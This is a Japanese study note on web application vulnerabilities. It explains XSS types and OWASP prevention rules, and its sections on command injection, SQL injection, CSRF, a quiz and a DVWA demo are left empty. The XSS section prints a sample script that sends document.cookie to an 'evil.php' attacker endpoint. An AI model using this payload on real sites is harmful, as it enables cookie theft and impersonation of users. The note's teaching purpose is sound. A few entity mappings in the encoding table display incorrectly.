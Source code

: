 # Webアプリケーションの脆弱性を理解する

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [課題1 基本的な脆弱性を理解する](#%E8%AA%B2%E9%A1%8C1-%E5%9F%BA%E6%9C%AC%E7%9A%84%E3%81%AA%E8%84%86%E5%BC%B1%E6%80%A7%E3%82%92%E7%90%86%E8%A7%A3%E3%81%99%E3%82%8B)
  - [クロスサイトスクリプティング](#%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B)
    - [参考資料](#%E5%8F%82%E8%80%83%E8%B3%87%E6%96%99)
  - [コマンドインジェクション](#%E3%82%B3%E3%83%9E%E3%83%B3%E3%83%89%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-1)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-1)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-1)
  - [SQLインジェクション](#sql%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-2)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-2)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-2)
  - [CSRF](#csrf)
    - [どういった脆弱性なのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%84%86%E5%BC%B1%E6%80%A7%E3%81%AA%E3%81%AE%E3%81%8B-3)
    - [どういった被害が発生しているのか](#%E3%81%A9%E3%81%86%E3%81%84%E3%81%A3%E3%81%9F%E8%A2%AB%E5%AE%B3%E3%81%8C%E7%99%BA%E7%94%9F%E3%81%97%E3%81%A6%E3%81%84%E3%82%8B%E3%81%AE%E3%81%8B-3)
    - [どのような対策を講じるべきか](#%E3%81%A9%E3%81%AE%E3%82%88%E3%81%86%E3%81%AA%E5%AF%BE%E7%AD%96%E3%82%92%E8%AC%9B%E3%81%98%E3%82%8B%E3%81%B9%E3%81%8D%E3%81%8B-3)
- [課題2 クイズ](#%E8%AA%B2%E9%A1%8C2-%E3%82%AF%E3%82%A4%E3%82%BA)
- [課題3 DVWAで実演する](#%E8%AA%B2%E9%A1%8C3-dvwa%E3%81%A7%E5%AE%9F%E6%BC%94%E3%81%99%E3%82%8B)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## 課題1 基本的な脆弱性を理解する

### クロスサイトスクリプティング

#### どういった脆弱性なのか

**クロスサイトスクリプティング（XSS）** 攻撃は、悪意のあるスクリプトを脆弱性のあるWebサイトに注入し、クライアントのブラウザ上でコードを実行する攻撃である。

悪意のあるスクリプトをブラウザ上で実行させることで、ブラウザが保持している対象のサイトでの **Cookie、セッショントークンなどの機密情報** を盗み出し、 **ユーザになりすます** などの攻撃が実行される可能性がある。

XSS は2017年時点で、Webアプリケーションの脆弱性の中で7番目に被害が多い攻撃である。

特徴は対象のWebアプリケーションが、ユーザからの入力を検証しなかったり、エンコードせずに保存してしまい、そのままHTMLとして出力してしまうような場合にどこでも発生する点である。

XSS には主に以下の3種類が存在している。

| 名称          | 概要                                                                                                                                                                                                                                                                                       | 
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | 
| Stored XSS    | データベース、メッセージフォーラム、訪問者ログ、コメントフィールドなど、対象のサーバにユーザの入力が蓄積されている場合に発生する。<br><br>被害者は、サーバからのデータを検証することなくブラウザでレンダリングを実行すると、悪意のあるスクリプトが実行される。                             | 
| Refrected XSS | ユーザからの入力を受けて、その一部や全部を即座にエラーメッセージ、検索結果、そのほかのレスポンスに反映してしまう場合に発生する。                                                                                                                                                           | 
| DOM based XSS | 悪意のあるデータの流れがすべてブラウザ上で発生する、つまり悪意のあるデータがDOMにあり、そのDOMからほかのDOMへのデータが流れるような場合に発生する。<br><br>例えば悪意のあるデータ、DOMのHTML要素（document.location.href）から注入されたり、document.writeで書き込まれたりする場合である。 | 

#### どういった被害が発生しているのか

Webアプリケーションが、ユーザの入力を何も検証していない場合、攻撃者は認証されたユーザからCookie情報を盗むことが可能となる。

例えば以下のスクリプトを脆弱性のある掲示板に注入し、ユーザが対象のページのHTMLをリクエストしてしまうと、攻撃者のサイトに対してユーザが対象のサイトで保持しているCookie情報が盗まれてしまう。

```js
<script type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</script>
```

これでエスケープ処理されたCookieの中身が変数`cakemonster`に格納された状態で、`evil.php`へのリクエストが送信されてしまう。

後は攻撃者は抜き取ったCookieに格納されているセッション情報などを使用して、被害者になりすますことが可能となる。

#### どのような対策を講じるべきか

**Stored XSS** と **Refrected XSS** に関しては、サーバ側でユーザ入力に対して適切な検証処理とエンコーディングを実装することで対処することができる。

なお入力に対する検証処理を実装する場合には、独自に実装を行うよりも使用している言語で提供されているエンコーディング用のライブラリを使用するほうが安全である。

**DOM based XSS** では、いくつかのルールに従うことで対処することが可能であるが、そのルールの詳細は [DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) を要参照する。

では以下に具体的な XSS を防止するためのルールを記載する。なおルールの詳細は [XSS Prevention Rules](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-prevention-rules) に記載されているが、リンク先でも指摘されているように、ルール0を基本として、ルール1とルール2で十分な場合が多いため、この2つのルールを説明する。

| 名称      | 概要                                                                                                                                                                                                                                                                                         | 
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | 
| ルール#０ | 原則として検証を行っていないような信頼できないデータは、どのようなものであってもHTMLの文書に注入しないようにする。<br><br>`<script>`タグやHTMLコメント `<!-- comment -->` 、タグの名称やその属性名、CSSなどあらゆる要素で、信頼していないデータは注入してはいけない。                        | 
| ルール#1  | HTML文書に信頼していないデータを挿入する前に、必ず入力値をHTMLエンコードする。<br><br>これは例えばユーザ入力に対して、以下の文字をHTMLエンコードした後でHTML文書に挿入するという意味になる。<br><br>`& --> &amp;`<br>`< --> <`<br>`> --> >`<br>`" --> &quot;`<br>`' --> &#x27;`<br>
| ルール#2  | `<div attr=...>` のようにHTMLタグなどの属性値に値を挿入する前に、値をHTMLエンコードする。<br><br>アルファベット文字以外のすべてをASCIIに変換することで悪意のあるスクリプト実行を防ぐことができる                                                                                             | 

さらに詳細を知りたい場合は、参考資料のチートシートを参照する。

#### 参考資料

- [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [Cross Site Scripting Prevention Cheat Sheet¶](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

### コマンドインジェクション

#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

### SQLインジェクション


#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

### CSRF


#### どういった脆弱性なのか

#### どういった被害が発生しているのか

#### どのような対策を講じるべきか

## 課題2 クイズ



## 課題3 DVWAで実演する
